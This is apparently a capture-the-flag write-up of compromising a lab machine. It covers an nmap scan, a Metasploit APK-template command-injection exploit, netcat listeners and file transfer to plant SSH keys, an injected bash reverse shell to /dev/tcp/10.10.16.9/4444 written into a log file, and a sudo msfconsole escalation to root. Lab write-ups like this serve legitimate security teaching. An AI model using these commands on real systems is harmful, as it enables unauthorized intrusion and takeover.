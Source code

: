 First we ran an nmap scan on the system:
```
nmap -sV -sC -T4 10.10.10.226
```
we found an open port 5000 and then browsed to the endpoint and found a website that allowed us to upload files.
using search sploit found out that msfconsole could be used to generate a payload that could exploit the machine

commands
```
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set lhost <attacker ip>
set lport 4444
exploit
```
the exploit did not work with the python reverse shell so we switched to a netcat reverse  shell and it generated an apk file.
We then uploaded the file to the website and opened up a netcat listener ```nc -nlvp 4444```

We successfully gained user access to the machine and then cd'd into the .ssh folder and downloaded an authorized_keys file generated with ```ssh-keygen -f rsa``` and sent it with netcat ```nc -w 3 <victim ip> 1234 < authorized_keys``` recieved it with ```nc -nlvp 1234 > authorized_keys```.

after sshing in I gained access to the pwn folder and found a script called "scanlosers.sh" that called to a file called "~/logs/hacker".

we created a one liner reverse shell to connect to user pwn successfully.

```
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.9/4444 0>&1' #" >> hackers
```
Using ```sudo -l``` we found that the user had root permissions to use the binary /opt/metasploit-framework-6.0.9/msfconsole.

going to GTFO bins I found an exploit that allowed me to get root privledges with the commands"
```
sudo msfconsole
```msf6 > irv
```
We now have root access to the machine action is no longer required.
